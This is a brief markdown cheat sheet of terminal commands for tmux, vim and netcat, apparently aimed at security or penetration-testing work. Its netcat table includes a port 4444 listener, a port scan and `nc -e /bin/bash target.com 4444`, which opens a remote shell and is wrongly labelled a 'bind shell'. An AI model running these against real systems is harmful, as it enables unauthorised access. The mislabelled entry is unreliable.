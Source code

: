 
## Essential Tools Reference

### 📁 Basic System Tools

#### tmux (Terminal Multiplexer)
| **Command** | **Description** |
|-------------|-----------------|
| `tmux` | Start new session |
| `Ctrl+b c` | New window |
| `Ctrl+b %` | Split vertically |
| `Ctrl+b "` | Split horizontally |
| `Ctrl+b →` | Switch to right pane |
| `Ctrl+b d` | Detach session |
| `tmux attach` | Reattach to session |

#### vim (Text Editor)
| **Command** | **Description** |
|-------------|-----------------|
| `vim file` | Open file |
| `i` | Insert mode |
| `Esc` | Normal mode |
| `dd` | Delete line |
| `yy` | Copy line |
| `p` | Paste |
| `:w` | Save |
| `:q` | Quit |
| `:wq` | Save and quit |
| `:q!` | Quit without saving |

### 🌐 Network Utilities

#### netcat (The Swiss Army Knife)
| **Command** | **Description** |
|-------------|-----------------|
| `nc -lvnp 4444` | Listen on port 4444 |
| `nc target.com 80` | Connect to port 80 |
| `nc -e /bin/bash target.com 4444` | Bind shell |
| `nc -zv target.com 1-1000` | Port scan |
